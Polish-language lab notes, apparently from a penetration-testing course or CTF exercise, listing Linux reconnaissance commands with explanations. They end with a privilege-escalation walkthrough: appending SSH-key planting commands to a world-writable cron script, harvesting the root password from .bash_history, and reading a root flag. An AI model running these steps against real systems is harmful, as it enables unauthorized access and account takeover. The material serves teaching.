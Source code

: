 - ssh
- whaim
- env
- id
- echo $USR
- who
- last


- cat /etc/passwd :wyświetla zawartość pliku /etc/passwd, który zawiera
podstawowe informacje o wszystkich użytkownikach systemu, takie jak nazwa
użytkownika, numer identyfikacyjny użytkownika (UID), numer identyfikacyjny
grupy (GID), pełna nazwa użytkownika, katalog domowy oraz powłoka logowania.

- cat /etc/issue - wyświetla zawartość pliku /etc/issue, który zawiera krótki
komunikat powitalny lub informacje o wersji systemu operacyjnego wyświetlane
przed logowaniem

- cat /etc/os-release - wyświetla szczegółowe informacje o systemie operacyjnym,
takie jak jego nazwa, wersja i identyfikator, zapisane w pliku /etc/os-release.

- uname -a - wyświetla pełne informacje o systemie, w tym nazwę jądra, nazwę
hosta, wersję jądra, datę kompilacji oraz architekturę systemu.

- cat /proc/version - wyświetla szczegóły dotyczące wersji jądra Linux, w tym wersję
jądra, datę kompilacji oraz używaną wersję kompilatora

cat /proc/cpuinfo - wyświetla szczegółowe informacje o procesorze, takie jak
model, liczba rdzeni, częstotliwość taktowania oraz cechy procesora

- cat /proc/meminfo - wyświetla szczegółowe informacje o pamięci systemowej,
w tym całkowitą ilość pamięci, używaną pamięć, wolną pamięć oraz inne
statystyki dotyczące pamięci.

- lspci - wyświetla listę wszystkich urządzeń podłączonych do magistrali PCI
w systemie, wraz z ich identyfikatorami i podstawowymi informacjami o sprzęcie.

- lsusb - wyświetla listę wszystkich urządzeń USB podłączonych do systemu, w tym
informacje o identyfikatorach producenta i produktu, a także numerze magistrali i
porcie, do którego urządzenie jest podłączone.

- lsscsi - wyświetla listę wszystkich urządzeń SCSI (w tym dysków twardych,
napędów optycznych i innych urządzeń) podłączonych do systemu, wraz z ich
identyfikatorami i informacjami o urządzeniach.

- lshw - wyświetla szczegółowe informacje o sprzęcie systemu, w tym o procesorze,
pamięci, dyskach, urządzeniach peryferyjnych oraz ich konfiguracji

- lsblk - wyświetla informacje o wszystkich dostępnych urządzeniach blokowych
w systemie, takich jak dyski twarde i partycje, wraz z ich nazwami, rozmiarami,
typem (np. dysk, partycja), oraz punktami montowania

- df -h - wyświetla informacje o użyciu przestrzeni dyskowej na zamontowanych
systemach plików, prezentując wyniki w formacie czytelnym dla ludzi
(z jednostkami takimi jak GB i MB)

- free -h - wyświetla informacje o użyciu pamięci systemowej, w tym o całkowitej,
używanej, wolnej i dostępnej pamięci RAM oraz pamięci wymiany, prezentując
wyniki w formacie czytelnym dla ludzi

- top - wyświetla dynamiczny, na bieżąco aktualizowany widok procesów
systemowych, pokazując zużycie CPU, pamięci oraz inne statystyki dotyczące
aktywnych procesów.

- ip a - wyświetla szczegółowe informacje o interfejsach sieciowych, w tym ich
adresach IP, maskach sieciowych i innych konfiguracjach związanych z siecią.

- ip r - wyświetla tabelę routingu systemu, która pokazuje dostępne trasy sieciowe
oraz przypisane im bramy, interfejsy sieciowe i inne parametry, co jest kluczowe
dla zrozumienia, jak ruch sieciowy jest kierowany przez system.


- ip n - służy do wyświetlania tabeli sąsiadów sieciowych, która zawiera informacje
o odwzorowaniach adresów IP na adresy MAC dla urządzeń w tej samej sieci
lokalnej. Jest to narzędzie do zarządzania sąsiadami warstwy 3 (adresy IP)
i warstwy 2 (adresy MAC) w sieci, często używane do diagnozowania problemów
z połączeniami sieciowymi i analizowania stanu połączeń.


- cat /etc/resolv.conf - wyświetla zawartość pliku konfiguracyjnego /etc/resolv.conf,
który zawiera informacje o serwerach DNS używanych do rozwiązywania nazw
domenowych

- ss -tp - wyświetla listę aktywnych połączeń TCP wraz z dodatkowymi informacjami
o każdym połączeniu, takimi jak adresy IP i porty źródłowe i docelowe

- ss -tlp - wyświetla listę aktywnych nasłuchujących połączeń TCP wraz
z informacjami o identyfikatorze procesu (PID) i nazwie programu,
który jest odpowiedzialny za każde nasłuchujące gniazdo

- ps - wyświetla listę aktualnie działających procesów w systemie, pokazując
podstawowe informacje takie jak identyfikator procesu (PID), użytkownik oraz
stan procesu.

- ps aux - wyświetla szczegółową listę wszystkich uruchomionych procesów
w systemie, niezależnie od użytkownika, z dodatkowymi informacjami
takimi jak użycie CPU, pamięci, czas działania i inne atrybuty procesu.


ps auxf - wyświetla szczegółową listę wszystkich uruchomionych procesów,
prezentując je w formie drzewa hierarchii procesów, co ułatwia zrozumienie relacji
między procesami i ich rodzicami.


touch pjatk1 - tworzy nowy, pusty plik o podanej nazwie lub aktualizuje datę
ostatniego dostępu i modyfikacji istniejącego pliku.

echo Hello > pjatk2 

cp pjatk2 pjatk3 

mv pjatk2 pjatk4

rm pjatk3 

mkdir pjatk

rmdir pjatk


locate .conf - wyszukuje i wyświetla ścieżki do plików, których nazwy zawierają
.conf, bazując na zaktualizowanej bazie danych plików

find / -name '*.conf' 2>/dev/null - wyszukuje pliki o rozszerzeniu .conf w całym
systemie, ignorując komunikaty o błędach dostępu do niektórych katalogów


grep sh /etc/passwd

grep -v nologin /etc/passwd - wyświetla linie z pliku /etc/passwd, które nie
zawierają ciągu nologin, pomagając w identyfikacji użytkowników, którzy mają
przypisaną aktywną powłokę logowania.


systemctl status ssh - wyświetla aktualny stan usługi SSH, w tym informacje o jej
statusie, działających procesach oraz ewentualnych błędach lub problemach z jej
uruchomieniem


systemctl status - wyświetla status usługi systemowej, ale wymaga podania
nazwy usługi, której status ma być sprawdzony. Jeśli użyta bez dodatkowych
argumentów, może wyświetlić ogólny stan systemu oraz informacje o działających
jednostkach i błędach systemowych


Ostatnie zagadnienie tej części to tzw. Cronjobs. Czasami chcemy, aby nasz
system uruchomił jakieś polecenie samodzielnie. Codziennie? Co godzinę? Co
minutę? Cron jest odpowiedzią! Dowiedzmy się o nich czegoś więcej. Celem
zadania jest uruchomienie tych komend na maszynie z ćwiczeniami.

cat /etc/crontab - wyświetla zawartość pliku /etc/crontab, który zawiera
globalne zadania cron, definiujące harmonogram uruchamiania zadań
systemowych na poziomie całego systemu.

crontab -e - otwiera edytor tekstu, umożliwiając edytowanie osobistych zadań
cron dla bieżącego użytkownika, które będą uruchamiane zgodnie z określonym
harmonogramem.






cat /etc/crontab
#* * * * * developer /home/developer/clean.sh oznacza, że skrypt clean.sh uruchomi się co minutę z uprawnieniami developer
ls -l /home/developer/clean.sh
#uprawnienia rwxrwxrwx oznaczają, że każdy może edytować ten plik
echo "mkdir /home/developer/.ssh" >> /home/developer/clean.sh
#dopisanie do pliku clean.sh komendy tworzącej katalog ~developer/.ssh
echo "echo $(cat /home/pentest/.ssh/authorized_keys) > /home/developer/.ssh/authorized_keys" >> /home/developer/clean.sh
#dopisane do pliku clean.sh tego samego klucza, którym zalogowaliśmy się na użytkownika pentest.


cat /home/developer/.ssh/authorized_keys #upewniamy się, że cron zadziałał
exit #wracamy na maszynę 192.168.100.1
ssh developer@192.168.200.51 #logujemy się na developera


Celem zadania jest odczytanie historii komend użytkownika developer, znalezienie
hasła użytkownika root i zalogowanie się na niego:
cat /home/developer/.bash_history #w pliku znajdziemy hasło na roota
su #za pomocą su logujemy się na roota


Ostatnim krokiem jest odczytanie pliku /root/root.txt i przekopiowanie flagi
do formularza na platformie:
cat /root/root.txt



find / -type f -perm 0777 2>/dev/null
find / - przeszukuje cały system plików.
-type f - ogranicza wyniki do plików (nie katalogów).
-perm 0777 - szuka plików z uprawnieniami rwxrwxrwx.
2>/dev/null - ukrywa komunikaty o błędach, które mogą pojawić się z powodu braku dostępu do niektórych katalogów.****